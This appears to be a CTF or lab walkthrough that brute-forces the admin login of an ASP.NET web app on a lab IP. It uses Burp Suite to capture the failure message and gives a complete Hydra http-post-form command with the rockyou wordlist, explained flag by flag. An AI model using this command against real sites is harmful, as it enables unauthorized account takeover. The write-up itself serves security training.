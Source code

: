 <p align="center"> <img src="https://i.imgur.com/RoXeBLS.png" height="90%" width="90%" alt=""/>

To obtain the login fail message > Click on Forward on Burp Suite.
- Failed login message: "Login failed".

<p align="center"> <img src="https://i.imgur.com/1PW5az2.png" height="90%" width="90%" alt=""/>

Now we will bruteforce the webpage with "admin" as username to gain admin privileges.

On terminal we will run the following command: 

`hydra -l admin -P ../../wordlists/rockyou.txt 10.10.251.165 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=UqdXYcNqgKHpn2%2BpdCIS3gYnqlac%2BKkIxoetD53FHHWChj8DB%2B4imTd8kwTha5WfDrtnKbjHCmkSqPlh3eIfc5DiqyhR5hjO%2BawjD3VznS7A0z4z19Fx0ahHdfYZGz6PTlRSsbkilSS0EUCBxA0%2BRZkdnf2x9zBwZA6G9Rh%2FrnXLK8WtC9%2FQKeFg0tb0EK9UDMwliypjbrq8Uh1%2BndI%2BAMxJbcyD5eZtNgKnV4P%2FN3%2Bc5XccnNy%2FtFDR0rpd6DxBFI0A1zL2EiWg540RIPGv9IvgDP9FayCb6Rm8Os75p3bD7yrYb4w3dVqLfjc%2FTaSV597%2BiZ%2BDRiaGILoVaUP7cwVBLNFl76F18NM9vNhpmUDRcWvj&__EVENTVALIDATION=y5nRmLKKmybfVqMpVqlCjWjWLKwuxTmpxmJH8gzayJTJTbOIDNXGTOYBOFRaeuRrCp%2FUSW7%2F9JCcXJlCNzxTq9IGJKrC29fTnMYo4XHdoyj6B4Bq88xKa0Dpez4zxsBbIzHGsLQFW3%2BolDEi5vGQGd5W1Od7DQ7u55Jx8iLJEKApamOE&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv`

- `hydra`: The command itself, invoking the Hydra tool.

- `-l admin`: Specifies the login username to be "admin."

- `-P ../../wordlists/rockyou.txt`: Specifies the path to a file containing a list of passwords (../../wordlists/rockyou.txt in this case).

- `10.10.251.165`: The IP address of the target system.

- `http-post-form`: Indicates the type of attack, in this case, it's an HTTP POST form-based attack.

- `"/Account/login.aspx?ReturnURL=/admin: ... : Login Failed"`:
  - Specifies the login form details:
    - `/Account/login.aspx?ReturnURL=/admin`: The URL of the login page.
    - `The long string after the colon (:)` represents various parameters that are part of the POST request, including ViewState, EventValidation, and the login form fields.
    - `^USER^` and `^PASS^`: are placeholders that Hydra will replace with the actual username and password during the brute-force attack.
    - `Login Failed`: The failure message indicating an unsuccessful login attempt.
- `-vv`: (verbose) option is used to increase the verbosity of the output. 

We changed:

- `/Account/login.aspx?ReturnURL=%2fadmin%2f` into: `/Account/login.aspx?ReturnURL=/admin`
- `UserName=a` into `UserName=^USER^`
- `Password=a` into `Password=^PASS^`

Added in:

- `:Login Failed` for login message.

Successfully bruteforce the password

<p align="center"> <img src="https://i.imgur.com/ixYx6YY.png" height="90%" width="90%" alt=""/>
